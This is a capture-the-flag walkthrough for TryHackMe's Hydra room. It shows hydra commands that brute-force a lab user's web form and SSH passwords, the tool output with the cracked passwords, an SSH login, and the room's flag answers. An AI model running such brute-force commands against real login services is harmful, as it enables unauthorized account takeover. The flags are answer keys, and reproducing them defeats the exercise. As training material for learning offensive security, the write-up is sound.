 # TryHackMe [Hydra](https://www.tryhackme.com/room/hydra)
### References
* DarkSec. (2020). TryHackMe Hydra Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/8fs_7bm88GY
## Use Hydra to brute force molly's web password. What is flag 1?
1. Brute force Molly's password with `hydra`:
```bash
$ hydra -l molly -P rockyou.txt 10.10.66.163 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-10 21:00:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.66.163:80/login:username=^USER^&password=^PASS^:Your username or password is incorrect.
[80][http-post-form] host: 10.10.66.163   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-10 21:00:40
```
2. Login to the webpage with the credentials

**Flag 1**: `THM{2673a7dd116de68e85c48ec0b1f2612e}`
## Use Hydra to brute force molly's SSH password. What is flag 2?

```bash
$ hydra -l molly -P rockyou.txt 10.10.66.163 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-10 21:03:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.66.163:22/
[22][ssh] host: 10.10.66.163   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-10 21:03:24
```

```
$  ssh molly@10.10.66.163

molly@10.10.66.163's password: butterfly
molly@ip-10-10-66-163:~$ ls
flag2.txt
molly@ip-10-10-66-163:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```